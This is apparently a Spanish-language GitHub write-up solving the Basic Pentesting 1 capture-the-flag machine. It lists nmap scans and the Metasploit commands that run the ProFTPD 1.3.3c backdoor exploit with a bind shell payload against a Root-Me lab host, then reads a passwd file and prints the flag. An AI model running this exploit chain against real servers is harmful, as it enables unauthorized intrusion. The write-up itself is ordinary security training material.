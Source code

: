 <p align="center">
  <a href="https://github.com/DenverCoder1/readme-typing-svg"><img src="https://readme-typing-svg.herokuapp.com?size=50&color=F7F400&width=530&height=70&lines=Basic_Pentesting_1"></a>
</p>

<h1 align="center"></h1>

**[Descargar máquina]:**

Vulnhub: https://www.vulnhub.com/entry/basic-pentesting-1,216/

**[Online]:**

Root-Me: https://www.root-me.org/fr/Capture-The-Flag/CTF-all-the-day/Basic-pentesting-1?q=%2Fbasic_pentesting_1&lang=es

<h1 align="center"></h1>

</br>

- *Paso 1:* Escanear todos los puertos que están abiertos con Nmap. 
```
nmap -p- --open -sC -n -vvv ctf04.root-me.org
```
![1](https://user-images.githubusercontent.com/75953873/172961150-48b8c567-3639-4b18-af1d-7e9bc11889f4.png)

Puertos Abiertos: [21,22,80]

- *Paso 2:* Detección de servicios y su respectiva versión. 
```
nmap -p 21,22,80 -sV ctf04.root-me.org
```
![2](https://user-images.githubusercontent.com/75953873/172961507-2b06c2d6-c57e-411d-9b03-bc9c575c8644.png)

Objetivo: Puerto 21 **->** Servicio FTP **->** Versión **->** ProFTPD 1.3.3c

- *Paso 3:* Búsqueda de exploit y configuración con Metasploit.
```
msfconsole
search ProFTPD 1.3.3c
``` 
![3](https://user-images.githubusercontent.com/75953873/172962236-7d4263ac-aa91-470f-9383-1c15028ebffc.png)

Seleccionar exploit:
```
use exploit/unix/ftp/proftpd_133c_backdoor
``` 

Obtener IP de la máquina a través de un ping:
```
ping -c 2 ctf04.root-me.org
```
![4](https://user-images.githubusercontent.com/75953873/172962461-a82db2a0-7a7a-442a-82cd-fc872ca0e0c6.png)

**IP:** 212.129.29.186

Configurar exploit (RHOSTS):
```
set RHOSTS 212.129.29.186 
```
![5](https://user-images.githubusercontent.com/75953873/172962563-26bb8f18-dc3a-47ee-a92f-246874366a7d.png)

Seleccionar payload:
```
set payload cmd/unix/bind_perl
```
![6](https://user-images.githubusercontent.com/75953873/172962786-257bbd0d-e119-4f03-9857-73b16ad4d200.png)

- *Paso 4:* Ejecutar exploit y obtener acceso.
```
exploit
``` 
![7](https://user-images.githubusercontent.com/75953873/172962925-a7d9f6e4-416b-4423-b2d1-ca5eeebbe729.png)

Localización del fichero `passwd` y extraer flag (key):
```
ls
cat passwd
``` 
![8](https://user-images.githubusercontent.com/75953873/172963153-b2d7dac3-f960-4bfc-ab86-ba80d8b4e449.png)

**Key:** b5fc9e0773f9596578e1ff689109c960

![8](https://user-images.githubusercontent.com/75953873/172520842-29a1669f-f89d-44b4-a818-297d7b1b472f.png)
